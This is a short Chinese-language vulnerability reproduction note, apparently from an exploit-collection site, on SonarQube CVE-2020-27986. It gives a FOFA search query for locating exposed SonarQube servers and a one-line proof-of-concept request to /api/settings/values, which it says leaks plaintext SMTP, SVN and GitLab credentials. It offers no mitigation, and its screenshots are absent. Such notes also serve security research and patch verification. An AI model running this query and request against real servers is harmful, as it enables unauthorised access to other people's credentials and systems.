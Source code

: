 # SonarQube values 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

<a-checkbox checked>SonarQube</a-checkbox></br>

## FOFA

<a-checkbox checked>app="sonarQube-代码管理"</a-checkbox></br>

## 漏洞复现

主页如下

![img](../../../.vuepress/public/img/image-20210627221618861.png)



漏洞POC

```plain
http://xxx.xxx.xxx.xxx/api/settings/values
```

![img](../../../.vuepress/public/img/image-20210627221628431.png)



可泄露的为：明文SMTP、SVN和Gitlab等敏感信息

![img](../../../.vuepress/public/img/image-20210627221640310.png)